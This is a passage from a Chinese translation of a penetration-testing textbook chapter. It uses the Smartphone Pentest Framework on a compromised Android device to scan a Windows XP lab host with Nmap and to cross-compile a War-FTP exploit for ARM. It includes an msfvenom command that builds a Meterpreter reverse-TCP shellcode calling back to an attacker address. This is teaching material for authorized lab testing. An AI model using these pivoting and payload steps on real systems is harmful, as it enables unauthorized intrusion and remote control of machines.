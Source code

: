 现在，通过选择选项 `12.) Run Nmap` 从我们的 Android 代理运行 Nmap。让我们对 Windows XP 目标 ❶ 运行 Nmap，如示例 20-21 所示。确保我们在第十七章和第十八章中利用的 War-FTP 程序仍在运行。（我们将在下一节通过枢纽再次利用它。）

示例 20-21. 从 Android 运行 Nmap

```
Select a command to perform or 0 to return to the previous menu
spf> **12**

    Download Nmap and port scan a host of range. Use any accepted format for target specification in Nmap
Nmap Target: **192.168.20.10**❶
Delivery Method(SMS or HTTP) **HTTP**
```

让 Nmap 运行几分钟，然后检查代理收集的信息。你应该注意到文件字段链接到 */root/Smartphone-Pentest-Framework/frameworkconsole/text.txt*。查看该文件的内容——你应该能看到类似示例 20-22 的内容。

示例 20-22. Nmap 结果

```
# Nmap 5.61TEST4 scan initiated Sun Sep  6 23:41:30 2015 as: /data/data/com.example.android.google
.apis/files/nmap -oA /data/data/com.example.android.google.apis/files/nmapoutput 192.168.20.10
Nmap scan report for 192.168.20.10
Host is up (0.0068s latency).
Not shown: 992 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
--*snip*--

# Nmap done at Sun Sep  6 23:41:33 2015 -- 1 IP address (1 host up) scanned in 3.43 seconds
```

与其使用被利用的移动设备作为枢纽进行整个渗透测试，不如通过 SPF 代理来执行一个利用程序。

#### 在本地网络上利用系统

不幸的是，Android 设备默认无法识别像 Python 和 Perl 这样的脚本语言；为了运行漏洞利用，我们需要一些 C 代码。我们为 War-FTP 1.65 编写的一个简单 C 版本的漏洞利用代码可以在第十七章中找到，路径是*/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter.c*。其中包含的 shellcode 运行一个*windows/meterpreter/reverse_tcp*载荷，并将其发送回 192.168.20.9 的 4444 端口。如果你的 Kali 系统使用的是其他 IP 地址，可以通过 Msfvenom 重新生成 shellcode，具体方法如下所示。（别忘了第十七章中的 War-FTP 的坏字符，我们可以使用 Msfvenom 的`-b`标志来避免这些字符。）

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 -f c -b '\x00\x0a\x0d\x40'
```

一旦你在漏洞利用中替换了 shellcode（如果需要的话），我们需要编译 C 代码以在 Android 设备上运行。如果我们使用 GCC，如第三章中所示，漏洞利用将在我们的 Kali 机器上正常运行，但 Android 手机上的 ARM 处理器将无法识别它。

我们在第十二章中简要介绍了 Windows 的交叉编译器，它允许我们在 Kali 上编译 C 代码并在 Windows 上运行。只要我们拥有 ARM 交叉编译器，也可以对 Android 做同样的事情。幸运的是，SPF 中就有一个。如示例 20-23 所示，从主菜单中选择`9.) 编译代码以在移动设备上运行`选项。

示例 20-23. 为 Android 编译 C 代码

```
spf> **9**

Compile code to run on mobile devices
    1.) Compile C code for ARM Android
spf> **1**❶

Compiles C code to run on ARM based Android devices. Supply the C code file and the output filename
File to Compile: **/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter.c**❷
Output File: **/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter**
```
